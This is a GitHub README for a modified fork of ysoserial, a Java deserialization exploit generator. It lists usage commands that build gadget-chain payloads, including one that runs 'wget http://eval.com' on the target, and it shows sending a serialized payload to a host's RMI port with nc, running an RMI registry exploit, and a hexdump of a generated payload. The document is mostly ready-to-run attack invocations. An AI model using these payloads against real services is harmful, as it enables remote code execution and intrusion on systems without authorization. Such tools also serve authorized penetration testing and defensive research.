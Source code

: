 
# ysoserial-5am3

> forked from frohoff/ysoserial



## Description

基于原版的一个魔改版。

- [+] 在原版生成命令执行基础上，使其支持生成代码执行Payload
- [+] Add JRMPClient2 (https://xz.aliyun.com/t/2479#toc-1)

## Usage

```bash
# 1.调用模块
# java -cp ./ysoserial-5am3.jar <模块名> <所需参数> 
java -cp ./ysoserial-5am3.jar ysoserial.exploit.JRMPListener 8579 URLDNS 

# 2.采用内置poc，生成反序列化payload

# 2.1.默认
# java -jar ./ysoserial-5am3.jar <POC名称> <所需参数> 
# 默认生成为二进制字节
java -jar ./ysoserial-5am3.jar JRMPClient2 10.0.0.1:8119

# 2.2.payload中含有命令执行等参数
# 2.2.1 执行shell命令

java -jar ysoserial.jar CommonsCollections1 "wget http://eval.com"

# 2.2.2 执行java代码

java -jar ysoserial.jar CommonsCollections1 'code:System.out.println("Hello Hack!");'
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Download & Building 

Requires Java 1.7+ and Maven 3.x+

```bash

git clone https://github.com/5am3/ysoserial.git
cd ysoserial
mvn clean package -DskipTests
java -jar ./target/ysoserial-0.0.6-SNAPSHOT-all.jar
```
